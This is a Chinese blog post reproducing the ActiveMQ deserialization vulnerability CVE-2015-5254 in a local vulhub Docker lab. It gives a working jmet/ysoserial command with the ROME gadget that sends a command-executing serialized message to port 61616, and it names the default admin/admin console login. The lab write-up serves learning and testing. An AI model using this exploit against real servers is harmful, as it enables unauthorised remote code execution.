

# ActiveMQ 反序列化漏洞（CVE-2015-5254）复现 - 小丸子 3689 - 博客园

> 原文：[`www.cnblogs.com/ffx1/p/12653652.html`](https://www.cnblogs.com/ffx1/p/12653652.html)

##### 1.运行漏洞环境

`sudo docker-compose up -d`


环境运行后，将监听 61616 和 8161 两个端口。其中 61616 是工作端口，消息在这个端口进行传递；8161 是 Web 管理页面端口。访问`http://your-ip:8161`即可看到 web 管理页面，不过这个漏洞理论上是不需要 web 的。


##### 2.漏洞复现

漏洞利用过程如下：

1.  构造（可以使用 ysoserial）可执行命令的序列化对象
2.  作为一个消息，发送给目标 61616 端口
3.  访问 web 管理页面，读取消息，触发漏洞

使用[jmet](https://github.com/matthiaskaiser/jmet)进行漏洞利用。首先下载 jmet 的 jar 文件，并在同目录下创建一个 external 文件夹（否则可能会爆文件夹不存在的错误）。

jmet 原理是使用 ysoserial 生成 Payload 并发送（其 jar 内自带 ysoserial，无需再自己下载），所以我们需要在 ysoserial 是 gadget 中选择一个可以使用的，比如 ROME。

执行：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616 
```


因为我就是在本地测试的，ip 就填的`127.0.0.1`。
此时会给目标 ActiveMQ 添加一个名为 event 的队列，我们可以通过`http://your-ip:8161/admin/browse.jsp?JMSDestination=event`看到这个队列中所有消息：（密码默认为 admin/admin）



点击查看新建的消息即可触发命令执行，此时进入容器`docker-compose exec activemq bash`，可见`/tmp/success`已成功创建，说明漏洞利用成功：


##### 3.参考

[`vulhub.org/#/docs/download-vulhub/`](https://vulhub.org/#/docs/download-vulhub/)
[`www.cnblogs.com/backlion/p/9970516.html`](https://www.cnblogs.com/backlion/p/9970516.html)